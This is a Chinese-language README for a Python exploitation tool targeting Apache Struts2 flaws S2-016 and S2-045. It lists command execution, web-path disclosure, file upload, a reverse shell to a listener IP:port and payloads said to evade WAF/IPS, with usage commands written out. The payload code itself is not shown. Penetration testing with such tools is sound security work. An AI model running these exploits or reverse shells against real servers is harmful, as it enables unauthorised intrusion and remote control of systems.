 # Struts2-tool

此工具用于检测和利用Struts2框架漏洞，目前支持S2-016（适用于Struts 2.0.0 - Struts 2.3.15）和S2-045（适用于Struts 2.3.5 – Struts 2.3.31和 Struts 2.5 – Struts 2.5.10）。这两个漏洞基本上就可以覆盖市面上所有较老的Struts版本了。
本工具在HatBoy/Struts2-Scan项目的基础上进行了改进，消除了bug，增加了一些功能，在此感谢原工具作者。
该工具仅限安全从业者在法律法规允许的范围内使用，违规使用后果自负。 

## 运行环境

Python3.6.X及其以上版本

第三方库: click, requests, bs4

## 支持功能

1，单个url，多个url批量漏洞检测

2，返回网站物理路径

3，基本命令执行功能

4，文件上传功能 （目标为Struts 2.5.x时不支持）

5，反弹shell功能

6，支持导入cookie

7，支持配置http/https代理

工具对windows和Linux靶机，Struts 2.3.x和Struts 2.5.x版本均经过测试，除括号标出的特殊情况外，其他情况均可放心使用，在输入命令以及参数的时候注意对特殊字符加转义。本工具的payload作了过waf处理，可以过一些市面上的waf/IPS。

## 使用说明

1，显示使用帮助：

​      python3 struts2_tool.py -h 

2，单个url检测：

​      python3 struts2_tool.py -u \<要检测的url\>

3，多个url检测:  

​      python3 struts2_tool.py -f \<url文件的物理路径\>

4，返回网站物理路径:  

​      python3 struts2_tool.py -u \<要检测的url\> -n \<S2-016\|S2-045\> --webpath

5，命令执行（目标是windows需要设置GBK编码）:           

​      python3 struts2_tool.py -u \<要检测的url\> -n \<S2-016\|S2-045\> -e \[-c GBK\]

6，上传文件:           

​      python3 struts2_tool.py -u \<要检测的url\> -n \<S2-016\|S2-045\> --upfile \<待上传文件的物理路径\> --uppath \<上传目标物理路径\>

7，反弹shell:          

​      python3 struts2_tool.py -u \<要检测的url\> -n \<S2-016\|S2-045\> -r \<监听IP:监听端口\>


